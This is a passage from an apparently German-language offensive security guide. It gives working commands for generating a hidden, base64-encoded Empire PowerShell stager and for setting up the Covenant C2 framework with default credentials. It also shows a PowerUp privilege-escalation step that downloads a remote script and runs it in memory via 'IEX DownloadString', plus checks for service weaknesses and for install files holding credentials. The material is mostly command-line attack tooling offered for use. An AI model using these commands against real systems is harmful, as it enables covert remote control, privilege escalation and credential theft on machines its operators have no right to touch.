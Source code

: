 #### Stager Generation
```bash
# PowerShell Stager
(Empire) > usestager multi/launcher
(Empire: stager/multi/launcher) > set Listener https
(Empire: stager/multi/launcher) > execute

# Output: PowerShell-Befehl für Target-Ausführung
powershell.exe -NoP -sta -NonI -W Hidden -Enc <base64_encoded_stager>
```

### 3.2 Covenant C2 Framework

#### Installation & Setup
```bash
# Dotnet SDK Installation (falls nicht vorhanden)
wget https://packages.microsoft.com/config/ubuntu/20.04/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update && sudo apt install -y dotnet-sdk-6.0

# Covenant herunterladen und kompilieren
git clone --recurse-submodules https://github.com/cobbr/Covenant
cd Covenant/Covenant
dotnet build
dotnet run
```

#### Listener & Launcher Setup
```bash
# Web Interface: https://localhost:7443
# Standard-Credentials: CovenantUser / CovenantPassword

# HTTP/HTTPS Listener erstellen via Web GUI
# Launcher generieren (Binary, PowerShell, MSBuild, etc.)
```

---

## 4. Privilege Escalation Techniques

### 4.1 Windows Privilege Escalation

#### PowerUp for Local Privilege Escalation
```powershell
# PowerUp herunterladen und ausführen
PS> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
PS> Invoke-AllChecks

# Spezifische Checks
PS> Get-ServiceUnquoted          # Unquoted Service Paths
PS> Get-ModifiableServiceFile    # Writable Service Binaries
PS> Get-ServicePermission        # Service Permissions
PS> Get-UnattendedInstallFile    # Unattended Install Files mit Credentials
```
